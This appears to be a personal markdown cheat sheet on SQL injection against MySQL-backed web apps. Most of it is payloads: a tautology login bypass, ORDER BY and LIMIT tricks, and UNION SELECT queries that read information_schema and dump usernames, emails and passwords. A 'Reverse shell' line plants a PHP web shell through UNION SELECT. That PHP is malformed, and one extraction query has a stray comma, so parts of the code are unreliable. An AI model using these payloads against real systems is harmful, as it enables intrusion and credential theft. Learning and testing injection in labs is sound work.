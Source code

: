 # SQL Injection


## Basic injection
`1' or 1 = 1 #`

- `1'`: can be anything with ending quote
- `or` : so we could write success query.
- `1 = 1`: so its always true
  - String would be quoted, 1 is integer so we dont quote
- `#`: comment anything after this may be there in code





### GOTCHA

-  `order by`: in order to understand field count.
-   `limit 1`: useful to bypass `count === 1`


### Exploit TIPS

    - Extracting Coloumns -> 1' union <SELECT QUERY> #
      - 1' UNION SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE tables_name = 'users' #
    - Extracting Data -> 1' union <SELECT QUERY> #\
      - 1' union select 1, username, 3 from db.tables #
      - 1' union select 1, concat(field1, 0x3a, field2, 0x3a, field3), from db.tables #
        - filed1,2,3 could be likes of username, email, pass
        - 0x3a is hexcode for `:`

### Reverse shell

- union select 1, 2, '<?php system[$_GET]>


### TIPS

    - SQL query vs Web APP Query: this can mean if its vulnerable to sql injection or not.
    - concept is same for any database engine but example works for mysql.

### GOOD READS

- [Portswinger Academy](https://portswigger.net/web-security/sql-injection)
- [pentest moneky Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)